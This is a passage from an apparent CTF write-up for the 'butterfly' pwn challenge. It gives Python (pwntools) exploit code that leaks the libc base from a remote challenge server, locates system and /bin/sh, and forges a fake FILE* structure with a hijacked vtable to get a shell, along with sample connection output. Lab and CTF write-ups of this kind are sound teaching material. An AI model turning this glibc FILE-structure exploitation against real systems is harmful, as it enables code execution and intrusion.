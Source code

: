 ## Implementation blues  
Before we dig into the madness of `FILE*`, let's start from what we know.

We'll want to jump to `system` (or something for a shell) in libc, so our
first step in the exploit is to leak libc. If you'll recall from two-or-three
sections ago, the libc addressed can be leaked if we just write a full `0x50`
bytes in the first input:  
```python  
from pwnscripts import *  
context.binary = 'distribute/challenge_bin/butterfly'  
context.libc_database = 'libc-database'  
context.libc = 'distribute/libc/libc.so.6'  
LIBC_OFF=0x50  
# The leaked string in gdb showed "__vdso_getcpu", so we'll just grep for
that.  
vdso_magic = next(context.libc.search(b"__vdso_getcpu"))

p = remote('pwn.darkarmy.xyz', 32770)  
p.sendafter(': ', 'a'*LIBC_OFF)  
context.libc.address =
extract_first_bytes(p.recvline()[LIBC_OFF:],6)-vdso_magic  
log.info(hex(context.libc.address))  
```  
This works out well enough — the address has enough trailing zeros to *look*
like a libc base, anyway:  
```python  
[x] Opening connection to pwn.darkarmy.xyz on port 32770  
[x] Opening connection to pwn.darkarmy.xyz on port 32770: Trying 34.77.202.24  
[+] Opening connection to pwn.darkarmy.xyz on port 32770: Done  
[*] 0x7ff2069f2000  
```  
After that, we need to copy whatever black magic we found from our online
searching<sup>7</sup>. The [blog](https://dhavalkapil.com/blogs/FILE-
Structure-Exploitation/) starts off by locating `system` and `/bin/sh`, so
we'll just repeat that:  
```python  
rip = context.libc.symbols['system']  
rdi = context.libc.symbols['str_bin_sh']  
assert rdi % 2 == 0     # Necessary for exploit  
```  
Then, we need a fake vtable address that points to somewhere inside
`__libc_IO_vtables`.  
```python  
io_str_overflow_ptr_addr = context.libc.symbols['_IO_file_jumps'] + 0xd8  
# This next line is broken --- we'll come back to this later.  
fake_vtable_addr = io_str_overflow_ptr_addr - 2*8  
```  
After that, we'll want to create a full rendition of the fake `FILE*`
structure to send to `read(0xe8)`. The blog defines a really long function to
do it, but — as one might expect — there's a `pwntools` helper for that by
now:  
```python  
_lock = context.libc.address + 0x3ecf00 # Magic number: aligned-pointer to an
r/w buffer containing the value b'\0'*8  
fp = FileStructure(_lock)       # This is `bin.symbols['fake_file'] + 0x80` on
the blog  
fp._IO_buf_end = fp._IO_write_ptr = (rdi-100)//2  
fp._IO_write_base = 0  
fp.vtable = fake_vtable_addr  
payload = bytes(fp)+pack(rip)  
```  
With the payload settled, we just have to write it to the `stdout` pointer,
and hope everything works:  
```python  
p.sendlineafter(': ', '-6')     # 0x202050-0x202020  
```